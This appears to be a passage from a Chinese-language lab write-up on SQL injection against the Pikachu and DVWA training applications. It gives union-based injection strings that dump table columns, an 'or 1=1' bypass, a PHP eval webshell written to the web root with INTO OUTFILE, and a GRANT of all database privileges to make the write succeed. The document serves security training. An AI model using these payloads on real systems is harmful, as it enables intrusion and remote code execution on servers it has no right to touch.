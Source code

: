 c. 爆出member表的字段值 kobe運' union select 1,group_concat(column_name) from information_schema.columns where table_schema =database() and table_name='member'#

这条语句在burp中执行不成功，pikachu中显示 您输入的username不存在，请重新输入！

输入 kobe運' or 1=1# 爆出uid和email

![memberlist](images/memberlist.png)

#### 5. 利用 SQL 注入实现 DVWA 站点的 Getshell，写清楚攻击步骤

   a. 先构建一句话木马 <?php eval($_POST['a']);

   a由攻击者自定义关键字，用来接收攻击者输入，攻击者输入的任意字符, 通过post方法传给 eval，eval函数把攻击者的输入解释成php代码执行，用户向a传什么，eval就执行什么，可实现远程执行目的。

   b. 在SQL Injection 中提交 `1' union select 1,"<?php eval($_POST['a']);" into outfile '/var/www/html/test_shell.php`

报错 "Access denied for user 'dvwa'@'localhost' (using password: YES)"

解决方法，给用户dvwa所有权限，

```
MariaDB [(none)]> GRANT all on *.* to dvwa@localhost identified by 'xxxx';
Query OK, 0 rows affected (0.001 sec)
```
